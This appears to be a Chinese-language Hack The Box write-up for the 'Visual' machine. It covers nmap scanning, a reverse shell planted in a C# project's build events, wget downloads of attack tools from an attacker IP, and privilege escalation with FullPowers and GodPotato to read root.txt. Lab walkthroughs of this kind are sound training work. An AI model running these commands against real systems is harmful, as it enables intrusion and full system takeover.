Visual

Enumeration
# IP='10.10.11.234'; nmap -sC -sV -O -p$(nmap -sS -p- --min-rate 1000 -T4 $IP | grep '/tcp\|/udp' | awk -F '/' '{print $1}' | tr '\n' ',') $IP -oN nmap.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-25 16:25 CST
Nmap scan report for 10.10.11.234
Host is up (0.10s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: Visual - Revolutionizing Visual Studio Builds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
- 指纹识别
http://10.10.11.234 [200 OK] Apache[2.4.56], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17], IP[10.10.11.234], OpenSSL[1.1.1t], PHP[8.1.17], Script, Title[Vi
sual - Revolutionizing Visual Studio Builds], X-Powered-By[PHP/8.1.17]
- 访问 Web 服务

字面意思，可以自动编译 C# 项目

可以看到是 git 请求

Visual 在构建项目的时候可以添加事件，可以在构建前后执行命令


去Github 克隆一个简单项目编辑 .csproj 文件，写入 reverse shell

项目构建超时

但是 Shell 已经弹过来了


Shell as xampp
发现 xampp，一般 xampp 权限很高，上传一个 php 试试权限
wget http://10.10.16.16:81/sdiouqwehrhkjqwe.php -O 1.php

但是并没有啥权限，一般 xampp 权限很高，重置一下试试
https://github.com/itm4n/FullPowers
wget http://10.10.16.16:81/FullPowers.exe -O 1.exe

这就对了 GodPotato 提权
https://github.com/BeichenDream/GodPotato
wget http://10.10.16.16:81/GodPotato-NET4.exe -O 2.exe
2.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
